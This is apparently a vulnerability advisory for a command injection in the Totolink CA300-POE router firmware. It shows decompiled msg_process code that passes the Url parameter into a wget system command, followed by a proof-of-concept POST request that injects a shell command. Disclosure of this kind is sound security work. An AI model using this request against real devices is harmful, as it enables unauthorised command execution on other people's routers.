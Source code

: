 ## Totolink CA300-POE command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CA300-POE
* Version: V6.2c.884_B20180522

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20181119/ba6d1ef945396a396fb70094a66d5e81.zip

### Vulnerability details

Totolink CA300-POE V6.2c.884_B20180522 was found to contain a command injection vulnerability in the `msg_process` function via the `Url` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

```
 1 int __fastcall msg_process(int a1, int a2, int a3, int a4)
 2 {
 3 ……
 4 v7 = cJSON_Parse(a1);
 5 Var = (const char *)websGetVar(v7, "Action", "");
 6 v9 = (const char *)websGetVar(v7, "APMAC", "");
 7 ……
 8 if ( strcmp(Var, "Scan") )
 9 {
 10 ……
 11 v18 = 1;
 12 if ( !strcmp(DEVMAC, v9) )
 13 {
 14 v18 = 0;
 15 ……
 16 }
 17 if ( !v18 )
 18 {
 19 ……
 20 if ( !strcmp(Var, "RemoteUpgradeFW") )
 21 {
 22 v24 = (const char *)websGetVar(v7, "Port", "");
 23 v25 = (const char *)websGetVar(v7, "Url", "");     //Injection 
 24 seconds = websGetVar(v7, "magicid", "");
 25 v26 = (const char *)websGetVar(v7, "ProxyEnabled", "");
 26 if ( !strcmp(v26, "1") )
 27 {
 28 ……
 29 v64 = strrchr(v25, '/');
 30 v31 = inet_ntoa(*(struct in_addr *)(a4 + 4));
 31 ObjectItem = v56;
 32 sprintf(v56, "wget ‐O /tmp/fwdir/%s http://%s:%s%s", v64, v31, v24, v25);
 33 v23 = 0;
 34     if ( !CsteSystem(ObjectItem, 0) )    //Execution
 35 ……
 36 	}
 37   }
 38 }
```

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 160
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"msg_process",
    "Action":"RemoteUpgradeFW",
    "ProxyEnabled": 1,
    "Url": "1;pwd;"
}
```

